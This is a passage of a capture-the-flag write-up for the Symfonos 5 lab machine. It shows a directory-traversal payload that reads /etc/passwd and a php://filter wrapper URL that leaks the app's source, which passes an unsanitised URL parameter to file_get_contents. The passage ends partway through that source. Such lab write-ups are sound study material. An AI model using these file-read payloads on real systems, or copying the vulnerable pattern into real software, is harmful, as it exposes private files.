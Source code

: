 {{< image src="/img/symfonos5/symfonos5-7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

We get redirected to home.php which doesn't have much, but clicking on portraits we see interesting functionality.

{{< image src="/img/symfonos5/symfonos5-8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The url parameter takes in a url, changing the input to `../../../../etc/passwd` we can read the passwd file. This confirms
we can abuse LFI to access other files on disk by directory traversal.

{{< image src="/img/symfonos5/symfonos5-9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

I tried accessing log files to try for RCE like the previous boxes but nothing came up. We can still use this to read
files so we can check the source code of the app.

Accessing the php files directly just executes them, so we need to use php wrappers.

**home.php**

```
http://192.168.191.132/home.php?url=php://filter/convert.base64-encode/resource=home.php
```

```php
<?php
session_start();

if(!isset($_SESSION['loggedin'])){
        header("Location: admin.php");
        exit;
}

if (!empty($_GET["url"]))
{
$r = $_GET["url"];
$result = file_get_contents($r);
}

?>
<html>
<head>
<link rel="stylesheet" type="text/css" href="/static/bootstrap.min.css">
</head>
<body>
<nav class="navbar navbar-expand-lg navbar-dark bg-dark">
  <a class="navbar-brand" href="home.php">symfonos</a>
  <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarColor02" aria-controls="navbarColor02" aria-expanded="false" aria-label="Toggle navigation">
    <span class="navbar-toggler-icon"></span>
  </button>

  <div class="collapse navbar-collapse" id="navbarColor02">
    <ul class="navbar-nav mr-auto">
      <li class="nav-item">
        <a class="nav-link" href="home.php">Home</a>
      </li>
      <li class="nav-item">
        <a class="nav-link" href="home.php?url=http://127.0.0.1/portraits.php">Portraits</a>
      </li>
      <li class="nav-item">
        <a class="nav-link" href="logout.php">Logout</a>
      </li>
    </ul>
```
